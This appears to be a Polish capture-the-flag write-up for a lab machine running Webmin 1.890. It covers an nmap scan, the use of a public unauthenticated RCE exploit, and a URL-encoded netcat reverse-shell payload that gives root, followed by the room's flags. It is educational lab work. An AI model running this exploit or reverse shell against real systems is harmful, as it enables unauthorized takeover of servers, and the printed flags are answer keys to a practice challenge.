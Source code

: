 # Source
IP=10.10.21.98

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.21.98 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-28 11:31 EDT
Nmap scan report for 10.10.21.98
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.87 seconds
```

Zostały wykryte dwa porty: 22 (SSH) i 10000 (http)
## Skanowanie

### Port 10000
Rozpoczynamy od sprawdzenia portu 10000. Ze skanu narzędzia nmap wynika, że wersja serwisu http to MiniServ 1.890. Szukamy możliwych podatności:

![Vuln](img/Vuln.JPG)

Widzimy, że serwis jest prawdopodobnie podatny i można uzyskać nieautoryzowane zdalne wykonanie kodu (RCE). 

## Eksploitacja

Pobieramy [exploita](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py), nadajemy mu uprawnienia do wykonywania oraz uruchamiamy go:

![Exploit](img/Exploit.JPG)

Widzimy, że komenda "id" została wykonana. Używając kodowania URL odczytujemy flagę user.txt za pomocą poniższej komendy:

```
python3 webmin-1.890_exploit.py 10.10.21.98 10000 cat%20/home/dark/user.txt
```

![Flag1](img/Flag1.JPG)

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

## Zwiększenie poziomu uprawnień

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell. Wykorzystujemy do tego komendę w formacie URL (należy zmienić adres IP oraz PORT):

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20[IP]%20[PORT]%20%3E%2Ftmp%2Ff
```

Końcowa komenda:

```
python3 webmin-1.890_exploit.py 10.10.21.98 10000 rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20[IP]%20[PORT]%20%3E%2Ftmp%2Ff
```

Uzyskujemy dostęp do serwisu jako użytkownik root. Z pliku root.txt odczytujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
THM{UPDATE_YOUR_INSTALL}
```

Do zobaczenia na kolejnych CTF-ach!
